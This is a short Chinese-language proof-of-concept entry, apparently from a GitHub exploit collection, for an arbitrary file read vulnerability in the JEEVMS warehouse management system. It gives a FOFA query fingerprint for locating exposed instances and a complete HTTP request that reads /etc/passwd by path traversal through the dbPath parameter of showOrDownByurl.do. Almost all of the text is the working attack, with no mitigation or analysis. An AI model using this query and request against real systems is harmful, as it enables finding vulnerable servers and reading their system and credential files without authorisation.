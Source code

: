 ## JEEVMS仓库管理系统任意文件读取漏洞

## fofa
```
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"或者fid="cC2r/XQpJXcYiYFHOc77bg=="
```
![image](../../images/0fc82b26-4cd9-4924-b461-aa64aef53160.png)

## poc
```
GET /systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd HTTP/1.1
Host: ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](../../images/490b9323-3a5c-4f4a-8ca0-24e2f1ecbf6d.png)
